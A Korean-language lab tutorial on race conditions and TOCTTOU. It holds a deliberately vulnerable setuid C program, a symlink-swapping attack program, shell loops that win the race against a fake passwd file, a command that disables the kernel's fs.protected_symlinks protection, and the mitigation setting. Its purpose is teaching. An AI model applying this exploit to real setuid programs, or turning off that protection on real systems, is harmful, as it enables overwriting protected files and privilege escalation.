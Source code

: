 # **Race Condition**

Race condition은 프로세스 또는 스레드 간 자원을 사용하기 위한 경쟁을 뜻한다. 이러한 경쟁은 프로세스 또는 스레드의 순서 또는 타이밍에 따라 발생한다.  
Race condition은 프로세스, 스레드에서 사용되는 자원이 공유된 상태일 경우 자주 발생한다.

### **TOCTTOU(Time of check to time of use)**

TOCTTOU는 소프트웨어에서 리소스의 상태를 확인하는 시간과 사용하는 시간 사이에 리소스를 변경하여 리소스의 상태 확인 결과를 우회하는 방법.

## **Proof of Concept**

가짜 /etc/passwd 파일을 생성하고 실제 /etc/passwd와 같은 설정을 적용한다.

```
root@bs-virtual-machine:~/pwnable/Race_condition# mkdir etc
root@bs-virtual-machine:~/pwnable/Race_condition# ls -al
total 12
drwxr-xr-x 3 root root 4096 11월 18 20:29 .
drwxr-xr-x 4 root root 4096 11월 18 20:29 ..
drwxr-xr-x 2 root root 4096 11월 18 20:29 etc
root@bs-virtual-machine:~/pwnable/Race_condition# cd etc
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls
root@bs-virtual-machine:~/pwnable/Race_condition/etc# echo Only Root! > passwd
root@bs-virtual-machine:~/pwnable/Race_condition/etc# cat passwd 
Only Root!
root@bs-virtual-machine:~/pwnable/Race_condition/etc# ls -al
total 12
drwxr-xr-x 2 root root 4096 11월 18 20:30 .
drwxr-xr-x 3 root root 4096 11월 18 20:29 ..
-rw-r--r-- 1 root root   11 11월 18 20:30 passwd
```

취약한 프로그램을 생성한다.

```c
// Vuln Code
// gcc vuln.c -o vuln ; chown root:root vuln ; chmod 4755 vuln 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
  
void main()
{
    int fd;
    char *file = "./file";
    char buffer[]="Success!! Race Condition : Attacker \n";
 
    if (!access(file, W_OK)) {
        printf("Able to open file %s.\n",file);
        fd = open(file, O_WRONLY);
        write(fd, buffer, sizeof(buffer));
        close(fd);
    }else{
        //printf("Unable to open file %s.\n",file);
    }
}
```

access() 함수를 이용하여 쓰기 가능한지 확인하고 쓰기가 가능하면 open(), write(), open(), write() 함수를 이용하여 파일을 읽고 내용을 작성한다.  

access()와 open()이 file handler 대신 파일 이름을 사용하여 access() 함수에 전달된 파일이 open() 함수에 전달될 파일과 같을 수 있다는 보장이 없다. 공격자가 access() 함수 호출 후 심볼릭 링크로 파일을 변경하면 open() 함수에 의해 다른 파일을 수정할 수 있다.

file을 unlink한 후 file에 ./etc/passwd 파일을 링크해주는 공격 프로그램을 작성한다.

```c
// gcc attack.c -o attack
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
void main()
{
    unlink("file");
    symlink("./etc/passwd","file");
}
```

./vuln 프로그램을 계속 실행시켜주는 스크립트를 작성한다.

```shell
#!/bin/bash
while :
do
    ./vuln
done
```

./ect/passwd를 계속 비교하면서 변경된 경우 "Success"를 출력하는 스크립트를 작성한다.

```shell
#!/bin/bash
CHECK_FILE="ls -l ./etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./attack
    new=$($CHECK_FILE)
done
echo "Success! The passwd file has been changed"
```

리눅스 커널의 보안 기술을 해제한다.

```shell
bs@bs-virtual-machine:~/race_condition$ sudo sysctl -w fs.protected_symlinks=0
fs.protected_symlinks = 0
```

## **Exploit**

Terminal1으로 run.sh 스크립트를 통해 ./vuln 프로그램을 지속적으로 실행한다.

```
bs@bs-virtual-machine:~/race_condition$ echo > file
bs@bs-virtual-machine:~/race_condition$ bash run.sh 
Able to open file ./file.
Able to open file ./file.
...
```

Terminal2에 race.sh 스크립트를 통해 ./attack 프로그램을 ./etc/passwd가 변조될 때까지 실행시킨 다음 ./etc/passwd이 변조된 것을 확인한다.

```
bs@bs-virtual-machine:~/race_condition$ bash race.sh 
Success! The passwd file has been changed
bs@bs-virtual-machine:~/race_condition$ cat ./etc/passwd 
Success!! Race Condition : Attacker
```

### **File system hardening**

리눅스 커널은 프로그램(tmp-races, TOCTOU)의 안전하지 않은 파일 시스템 액세스에 대한 취약성에 대한 위협을 완하하기 위해 해당 보안 기술을 적용하였다.

```
Ubuntu 12.04
$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
Ubuntu 16.04
$ sudo sysctl -w fs.protected_symlinks=1
```

**References**  
<https://www.lazenca.net/display/TEC/09.Race+condition>
